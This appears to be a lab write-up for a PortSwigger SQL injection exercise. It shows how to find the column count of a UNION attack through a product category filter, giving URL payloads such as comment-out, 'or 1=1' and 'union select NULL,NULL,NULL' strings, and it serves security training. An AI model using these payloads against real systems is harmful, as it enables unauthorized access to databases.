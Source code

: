
# SQL injection UNION attack, determining the number of columns returned by the query

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the name and the price of the products:


<img width="1013" height="831" alt="1" src="https://github.com/user-attachments/assets/94cd6276-d12c-4ffb-a553-99176562c594" />


The following payload is accepted and we see the 4 items from Accessories category:

```
/filter?category=Tech+gifts'--
```


<img width="1510" height="839" alt="2" src="https://github.com/user-attachments/assets/5639b56b-d5aa-43b5-8d76-1330b29c6a0c" />



The same happens with this payload, to display all values:

```
/filter?category=Tech+gifts'+or+1=1--
```

We will update the payload to execute a UNION attack and find the query takes 3 parameters and not 2:

```
/filter?category=Tech+gifts'+union+select+NULL,NULL,NULL--
```


<img width="1521" height="816" alt="3" src="https://github.com/user-attachments/assets/ffabd0af-48ce-4300-b5e7-496590bfbca5" />


We can also add values instead of using NULL:

```
/filter?category=Tech+gifts'+union+all+select+Null,'b',Null--
```


<img width="1520" height="793" alt="4" src="https://github.com/user-attachments/assets/847fdb84-54f2-4327-a52e-658093c39eff" />
